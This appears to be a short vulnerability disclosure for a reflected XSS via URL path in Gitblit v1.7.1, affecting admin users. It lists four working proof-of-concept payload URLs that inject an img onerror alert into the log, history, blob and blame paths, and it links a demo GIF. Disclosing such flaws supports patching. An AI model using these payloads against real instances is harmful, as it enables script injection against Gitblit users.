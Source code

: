 Vulnerability: Reflected XSS via Path

Version: ```v1.7.1```


Authenticated: Yes, possibly unauthenticated

User: Admin

Vulnerable Parameter:


Payload:

None of these will work for your instance.  You need to replace the repo names ```<REPLACE ME>``` with the exisiting ones.

```http://172.18.0.34/log/<REPLACE ME>.git/master%22%3e%3cimg%20src%3da%20onerror%3dalert(1)%3e```

```http://172.18.0.34/history/<REPLACE ME>.git/mastery%3cimg%20src%3da%20onerror%3dalert(1)%3e```

```http://172.18.0.34/blob/<REPLACE ME>.git/master/README.md%3cimg%20src%3da%20onerror%3dalert(1)%3e```

```http://172.18.0.34/blame/<REPLACE ME>.git/master/README.md%3cimg%20src%3da%20onerror%3dalert(1)%3e?star=true```


Demo:

![](https://github.com/4rdr/proofs/blob/main/gifs/gitblit-v1.7.1-reflected-XSS-via-filenames.gif?raw=true)
